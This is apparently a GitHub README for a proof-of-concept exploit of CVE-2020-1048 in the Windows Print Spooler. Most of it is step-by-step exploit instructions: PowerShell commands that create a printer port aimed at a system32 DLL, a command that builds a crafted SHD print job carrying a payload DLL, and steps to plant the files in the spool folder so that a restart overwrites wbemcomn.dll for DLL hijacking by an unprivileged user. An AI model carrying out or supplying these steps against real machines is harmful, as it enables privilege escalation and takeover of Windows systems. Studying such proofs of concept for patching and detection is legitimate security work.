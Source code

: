 # SHDWriter (CVE-2020-1048 Exploit PoC)
The folder contains the ```SHDWriter.py``` file which creates a crafted SHD print job file, which allows a user to "print" (write) any data he would like to any path (Arbitrary File Write) using the CVE-2020-1048 of the Print Spooler service.

## Exploit Instructions
we will use the following for demonstration purposes: 
- PowerShell, but it can be done using WMI and/or WinAPI as well.
- Write data to c:\windows\system32\wbem\wbemcomn.dll (DLL Hijacking), but of course any other DLL or a file can be used.
- SBPrinter as the printer name, but any name can be used.
------

1. Add a virtual printer port, printer driver and virtual printer (by using an unprivileged user:)
   ```
   Add-PrinterPort "c:\windows\system32\wbem\wbemcomn.dll";
   Add-PrinterDriver "SBPrinter";
   Add-Printer -Name "SBPrinter" -DriverName "MS Publisher Color Printer" -PortName "c:\windows\system32\wbem\wbemcomn.dll";
   ```

2. Run the PoC script which generates the crafted SHD file (It can be done on your computer, outside of the VM which you'll exploit the vuln on). 
You can change the parameters according to your environment:
    ```
    python SHDWriter.py --arch 64 --filePath custom_payload.dll --driverName "MS Publisher Color Printer" --printerName SBPrinter --writePath "c:\\windows\\system32\\wbem\\wbemcomn.dll" --winMajorVer 10
    ```

3. Rename the payload file to be copied to ```00012.SPL``` 
4. Copy the crafted SHD and SPL files from the PoC folder (```00012.SHD```) to the  ```c:\windows\system32\spool\PRINTERS\``` folder.
5. Restart the VM.
6. The Print Spooler service will process the SHD file, and will write the payload you provided to the path you provided.